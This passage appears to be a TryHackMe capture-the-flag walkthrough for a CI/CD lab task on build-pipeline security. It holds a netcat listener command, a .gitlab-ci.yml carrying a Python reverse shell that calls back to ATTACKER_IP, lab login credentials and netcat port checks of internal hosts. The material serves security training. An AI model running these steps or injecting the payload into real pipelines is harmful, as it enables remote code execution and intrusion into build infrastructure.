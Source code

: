 ```shell
Your flag value is: THM{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}
```

## Task 9: Securing the Build Pipeline

**Prepare attacker machine**

⚠️ AttackBox is suposed to be visible from **Gitlab runners** but sometimes it is not, so the alternative is to do it locally connected to the CI/CD VPN (see Task 2: Setting up)

* Execute the listener:
```shell
nc -lvp 8081
```

**Run Gitlab job to get a reverse shell**

* Go to http://gitlab.tryhackme.loc
* Log in as `anatacker` (password `Password1@`)
* Go to http://gitlab.tryhackme.loc/ash/environments
* Change to **dev** branch
* Edit `.gitlab-ci.yml` (replacing `ATTACKER_IP`):
```yaml
stages:
  - deploy

production:
  stage: deploy
  script:
    - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
  environment:
    name: ${CI_JOB_NAME}
```
* Commit changes and create merge request

**Get reverse shell**

* Get hostname on the reverse shell:
```shell
$ whoami
gitlab-runner
$ hostname
ip-10-200-6-202
```
* In this case `ip-10-200-6-202` is `GRunner02`
* Try connectivity to **DEV** and **PROD**:
```shell
$ nc -z -v 10.200.6.220 22
Connection to 10.200.6.220 22 port [tcp/ssh] succeeded!
$ nc -z -v 10.200.6.230 22
Connection to 10.200.6.230 22 port [tcp/ssh] succeeded!
```
